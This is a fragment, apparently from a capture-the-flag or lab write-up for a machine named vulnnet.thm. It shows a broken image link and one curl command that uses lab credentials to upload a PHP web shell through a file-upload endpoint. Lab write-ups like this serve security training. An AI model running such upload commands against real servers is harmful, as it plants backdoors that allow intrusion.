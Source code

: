 
upload file using CURL:
`  curl -u developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"   `

